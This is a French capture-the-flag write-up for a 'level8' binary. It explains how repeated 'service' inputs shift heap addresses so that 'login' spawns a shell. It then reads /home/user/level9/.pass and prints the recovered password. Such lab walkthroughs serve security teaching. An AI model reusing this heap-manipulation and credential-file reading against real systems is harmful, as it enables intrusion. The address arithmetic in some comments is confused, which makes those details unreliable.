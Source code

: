    ```sh
    - Le programme déclare deux variables globales `auth` (un pointeur vers un entier) et `service` (un pointeur vers une chaîne de caractères).
    - Le programme lit en boucles les entrées de l'utilisateur à partir de la console. Plus précisément, lorsque l'utilisateur saisit une ligne de texte, le programme, vérifie le contenu de l'entrée à l'aide de la fonction `strncmp` pour déterminer quelles actions doivent être effectuées.
    - Si l'entrée commence par `auth ` (avec un espace étant donné qu'on spécifie à `strncmp` un `size_t n` de 5), le programme alloue dynamiquement de la mémoire pour stocker un entier `auth` et copie une chaîne de caractères dans cette mémoire.
    - Si l'entrée commence par `reset`, le programme libère la mémoire allouée pour `auth`.
    - Si l'entrée commence par `service`, le programme copie la partie de l'entrée après `service` dans la variable `service` (le programme utilise la fonction `strdup` et augmente l'adresse de `16 bytes`, soit la valeur `8` en décimal).
    - Si l'entrée commence par `login`, le programme effectue une comparaison entre les adresses mémoires de `service` et `auth`. Si la différence est de `32 octets` (généralement la taille d'un pointeur), il exécute `/bin/sh` (un shell interactif). Sinon, il affiche `Password:\n` dans la sortie standard.

4. De ce fait, on lance le programme et entre les chaînes de caractères spécifiées ci-dessus :
	- On entre `auth ` est on obtient l'adresse `0x804a008` ;
	- On entre `service` est on obtient l'adresse `0x804a018` ;
	- Pour valider la comparaison entre les adresses mémoires de `service` et `auth` et lancer le shell interactif, on lance la commande `service` 2 fois pour augmenter l'adresse de `32 bytes`, soit `16 bytes` fois 2.
	- Enfin, on entre la chaine de caractère `login` pour obtenir le shell interactif.
	- On lance la commande `whoami` pour vérifier que l'utilisateur est bien passé de `level8` à `level9`.
	- On `cat` le contenue du fichier `/home/user/level9/.pass` pour obtenir le mot de passe pour accéder au `level9`.

	```sh
    > ./level8
    (nil), (nil)
    > auth (with an empty space at the end)
    0x804a008, (nil)
    > service
    0x804a008, 0x804a018        // 0x804a008 + 0x10/16/8 = 0x804a018
    > service
    0x804a008, 0x804a028        // 0x804a008 + 0x10/32/16 = 0x804a028
    > login
    > whoami
	level9
    > cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    ```

5. On peut à présent passer au niveau supérieur en exécutant la commande `su level9` et en y spécifiant le mot de passe qui vient d'être trouvée.
    ```sh
    > su level9
    Password :
	> c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    ```
